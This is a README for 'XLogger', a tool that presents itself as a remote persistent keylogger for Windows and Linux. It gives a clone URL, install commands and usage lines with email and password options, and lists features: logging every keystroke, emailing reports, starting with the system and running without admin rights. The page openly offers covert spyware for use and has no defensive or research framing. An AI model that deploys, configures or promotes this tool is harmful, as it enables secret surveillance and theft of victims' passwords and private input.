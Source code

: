 # XLogger
Remote persistent keylogger for Windows and Linux.


## Commands :

### Download
git clone https://github.com/XPR1M3/XLogger.git

### Installation
-chmod +x install.sh
-./ install.sh

### Usage
-Execute - python xlogger.py
-For help - python xlogger.py -h
-For Windows - python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]
-For Linux - python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]


### Features:

-Logs keys pressed on keyboard.
-Sends reports by email.
-Starts with system startup.
-Works with Linux and Windows.
-Does not require root or admin privileges.


